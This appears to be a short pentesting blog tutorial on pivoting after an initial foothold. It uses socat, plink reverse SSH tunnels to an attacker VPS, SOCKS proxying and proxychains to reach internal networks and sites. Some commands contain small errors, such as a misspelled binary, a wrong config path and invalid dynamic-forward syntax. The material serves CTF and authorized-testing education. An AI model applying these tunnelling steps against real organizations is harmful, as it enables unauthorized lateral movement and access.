 ```yaml
---
layout: single
title:  "Understanding SSH Tunnelling and Proxychains"
---
```


Having a good knowledge on SSH tunnelling is an important tool in the arsenal for pentesting engagements and for playing networked Capture The Flag (CTF) events. 

# Problem Statement
We have gained an initial foothold on one of the internal system of an organization. Now, we want to run `nmap` scans on the internal networks to pivot laterally. The organization is also running an internally hosted website which is not accessible from outside. How do we expose the internal ports/traffic to the outside attacker machine so that we can run our tools and gain access to resources which are not exposed to the outside world?

# Cyber Range Setup
The setup of the cyber range is given in figure below:

![Deployment Architecture of Application](/assets/images/2021-06-07-ssh-tunnel-fig-1.png){: .align-center }

# Actions at Victim Machine
## Step 1:
As we already have an initial foothold on the `victim` machine, we will start the `socate.exe`. This program will forward the traffic to its local port:
```
socate.exe TCP-LISTEN:8080,fork,reuseaddr TCP:<target-server-ip>:443
```
Once the traffic has been forwarded to a specific port, in our case `8080`, we can verify the same through `netstat` command:
```
# Now check if the port has been forwarded
netstat -ano // check connection
```
## Step 3:
We will redirect the traffic of the victim PC to the Virtual Private Server (VPS) through SSH tunnel, using `plink.exe` for windows.
```
# Connect with VPS
plink.exe -l <username> -pw <password> -R 8080:127.0.0.1:8080 <vps ip>
```

# Actions at VPS Machine
```
# To check with curl
/etc/hosts
127.0.0.1 <domain-name>
```
# Forward Traffic to Kali Machine from VPS
```
# On Kali Machine
ssh -g -L 8080:localhost:8080 -f -N <username>@<vps ip> // this use when want to open localhost
```
# Now open the browser and enter
```
http://<domain-name>:8080
```

# Configure SOCKS5 proxy
## Actions at victim machine
```
plink.exe -l <username> -pw <password> -D 8080:127.0.0.1:8080 <vps ip>
```
## Actions at VPS
### Install proxychains
```
$ yum install proxychains
$ nano /etc/proxychain.conf
socks5 <vps-public-ip> 8080
```
## Check on terminal
```
$ proxychains curl www.myweb.com
```
## On Kali Machine
### Do settings in the browser, if we want to open websites in browser

### In case you want to use terminal for traffic and not browser, perform following steps
```
$ yum install proxychains

# nano /etc/proxychain.conf
socks5 <vps-public-ip> 8080
```
## Check on terminal
```
$ proxychains curl www.myweb.com
```

#### Reference
- https://pswalia2u.medium.com/ssh-tunneling-port-forwarding-pivoting-socks-proxy-85fb7129912d